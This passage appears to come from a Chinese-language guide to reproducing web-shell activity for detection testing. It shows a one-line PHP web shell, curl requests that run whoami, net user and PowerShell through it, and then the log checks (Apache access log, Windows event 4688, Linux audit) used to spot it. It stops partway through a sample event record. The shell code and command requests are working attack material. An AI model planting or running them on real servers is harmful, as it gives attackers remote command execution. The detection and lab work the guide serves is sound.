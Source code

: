 ### 攻击步骤
1. **部署Web Shell**  
   - 上传Web Shell到Web服务器（如`/var/www/html/shell.php`或`C:\inetpub\wwwroot\shell.aspx`）。  
     ```php
     <?php
     system($_GET['cmd']);
     ?>
     ```

2. **执行命令**  
   - 通过浏览器或`curl`访问Web Shell，执行命令：
     ```bash
     curl "http://<web_server>/shell.php?cmd=whoami"
     curl "http://<web_server>/shell.php?cmd=powershell%20-c%20Get-Process"
     ```

3. **触发可疑进程**  
   - 使用Web Shell启动`cmd.exe`或`powershell.exe`：
     ```bash
     curl "http://<web_server>/shell.php?cmd=net%20user"
     ```

4. **验证结果**  
   - 检查Web服务器日志：
     ```bash
     cat /var/log/apache2/access.log | grep "shell.php"
     ```
   - 检查Windows日志（事件ID 4688/Sysmon事件ID 1）：
     ```powershell
     Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4688 -and $_.Message -match "cmd.exe|powershell.exe" }
     ```
   - 检查Linux审计日志：
     ```bash
     ausearch -ts today -m execve | grep "httpd|nginx"
     ```

5. **清理（测试后）**  
   - 删除Web Shell：
     ```bash
     rm /var/www/html/shell.php
     ```
   - 重启Web服务：
     ```bash
     systemctl restart apache2
     ```

**注意**：此复现仅用于学习和测试目的，需在合法授权的测试环境中进行，切勿用于非法活动。

## 测试留痕

### Windows日志
- **Windows安全日志（事件ID 4688）**：
  ```xml
  <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
    <System>
      <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" />
      <EventID>4688</EventID>
      <Version>2</Version>
      <Level>0</Level>
      <Task>13312</Task>
      <Opcode>0</Opcode>
      <Keywords>0x8020000000000000</Keywords>
  ```